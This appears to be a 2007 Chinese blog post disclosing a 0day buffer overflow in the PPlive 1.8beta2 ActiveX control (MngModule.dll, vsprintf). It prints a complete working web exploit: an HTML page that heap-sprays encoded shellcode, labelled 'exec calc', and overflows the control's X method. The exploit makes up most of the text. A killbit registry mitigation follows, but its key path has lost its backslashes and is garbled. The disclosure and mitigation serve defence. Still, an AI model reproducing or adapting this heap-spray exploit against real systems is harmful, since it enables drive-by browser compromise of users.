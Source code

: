 ```yaml
---
title: PPlive 0Day 网马曝光！
description: 根据近期恶意网址检测的结果，发现有一部分网马利用最新的PPlive0Day漏洞在传播，虽然目前数目还不多，但是相信很快就会成为网马的主力军，并与迅雷、百度搜霸、暴风影音、PPS等一路，加入今年应用软件网页木马的大潮中。该漏洞是由BugCenterTeam（http://www.cnbct.org/index.php)小组的Maple-x发现的，影响版本:为pplive1.8beat2，有问题的dll:MngModule.dll1.7.0.2，在该模块中，有一个vsprintf的函数，程序只分配了400h(1024个字节)的大小，中间并没有进行过长度判断，当提交超过1024个A以后就会发生溢出了。因此可以基本判断为是由于vsprintf的字符串长度过长，从而导致的溢出。由此可见，在编写程序时，做好边界检查是多么的重要！该有漏洞溢出模块的CLSID:9F0F8700-A4D8-4E24-A3E0-1CA654CB5179另附上Exploit：
date: 2007-11-14 07:15:23
category: 技术文章
tags: ['0day', 'exploit', '漏洞信息']
post_id: 247
alias: PPlive1.8beta2-0Day-exploit
ViewNums: 4670
---
```


根据近期恶意网址检测的结果，发现有一部分网马利用最新的PPlive 0Day漏洞在传播，虽然目前数目还不多，但是相信很快就会成为网马的主力军，并与迅雷、百度搜霸、暴风影音、PPS等一路，加入今年应用软件网页木马的大潮中。

该漏洞是由Bug Center Team（[http://www.cnbct.org/index.php](http://www.cnbct.org/index.php "http://www.cnbct.org/index.php")) 小组的Maple-x发现的，影响版本:
为 pplive 1.8beat2 ，有问题的dll: MngModule.dll 1.7.0.2 ，在该模块中，有一个vsprintf的函数，程序只分配了400h(1024个字节)的大小，中间并没有进行过长度判断，当提交超过1024个A以后就会发生溢出了。因此可以基本判断为是由于vsprintf的字符串长度过长，从而导致的溢出。由此可见，在编写程序时，做好边界检查是多么的重要！

该有漏洞溢出模块的CLSID:9F0F8700-A4D8-4E24-A3E0-1CA654CB5179

另附上Exploit：

<html>
<body>
<object classid='clsid:9F0F8700-A4D8-4E24-A3E0-1CA654CB5179' id='target'></object>
<script>
var heapSprayToAddress = 0x0a0a0a0a;

var shellcode = unescape(
"%u9090%u9090%u9090%u9090%u9090%u9090%u9090%u9090" +
// exec calc
"%u03eb%ueb59%ue805%ufff8%uffff%u494f%u4949%u4949%u5149%u565a%u5854%u3336
%u5630%u3458%u3041%u3642%u4848%u4230%u3033%u4342%u5856%u4232%u4244%u3448
%u3241%u4441%u4130%u5444%u4442%u4251%u4130%u4144%u5856%u5a34%u4238%u4a44
%u4d4f%u4f4e%u4e4a%u5446%u5042%u5042%u3042%u584b%u5445%u334e%u384b%u574e
%u3045%u374a%u3041%u4e4f%u584b%u444f%u414a%u384b%u354f%u4242%u3041%u4e4b
%u3449%u584b%u3346%u584b%u3041%u4e50%u3341%u4c42%u3949%u4a4e%u5846%u4c42
%u3746%u3047%u4c41%u4c4c%u504d%u5041%u4c44%u4e4b%u4f46%u534b%u5546%u3246
%u3046%u4745%u4e45%u484b%u354f%u3246%u5041%u4e4b%u3648%u584b%u504e%u544b
%u584b%u354f%u314e%u5041%u4e4b%u384b%u414e%u384b%u3041%u4e4b%u3849%u454e
%u5246%u5046%u4c43%u5341%u4c42%u4646%u484b%u4442%u4342%u3845%u4c42%u374a
%u504e%u484b%u4442%u504e%u484b%u5742%u514e%u4a4d%u484b%u464a%u304a%u4e4b
%u3049%u584b%u5842%u4b42%u3042%u5042%u3042%u484b%u464a%u434e%u554f%u4341
%u4f48%u5642%u5548%u5849%u4f4a%u3843%u4c42%u574b%u5542%u464a%u4e4f%u4c50
%u4e42%u4642%u364a%u494a%u4f50%u484c%u3050%u3547%u4f4f%u4e47%u4643%u5641
%u464e%u5643%u4250%u5645%u374a%u3645%u3042%uff5a");

var heapBlockSize = 0x100000;
var payLoadSize = shellcode.length * 2;
var spraySlideSize = heapBlockSize - (payLoadSize+0x38);
var spraySlide = unescape("%u9090%u9090");
spraySlide = getSpraySlide(spraySlide,spraySlideSize);
heapBlocks = (heapSprayToAddress - 0x100000)/heapBlockSize;
memory = new Array();

for (i=0;i<heapBlocks;i++)
{
memory[i] = spraySlide + shellcode;
}
function getSpraySlide(spraySlide, spraySlideSize)
{
while (spraySlide.length*2<spraySlideSize)
{
spraySlide += spraySlide;
}
spraySlide = spraySlide.substring(0,spraySlideSize/2);
return spraySlide;
}
var buffer = 'x0a';

while (buffer.length < 1044)
buffer += 'x0ax0ax0ax0a';

target.X(true, buffer, 1);
</script>
</body>
</html>

目前的临时解决办法也就是在注册表中设置killbit 。

Windows Registry Editor Version 5.00

[HKEY_LOCAL_MACHINESOFTWAREMicrosoftInternet ExplorerActiveX Compatibility{9F0F8700-A4D8-4E24-A3E0-1CA654CB5179}]
"Compatibility Flags"=dword:00000400

参考连接：《初探ActiveX类型溢出---PPlive 0Day》

[http://www.cnbct.org/index.php?action=article_view&aid=21](http://www.cnbct.org/index.php?action=article_view&aid=21 "http://www.cnbct.org/index.php?action=article_view&aid=21")

应用软件们注意了，下一个就是你！

from：网络巡警的博客

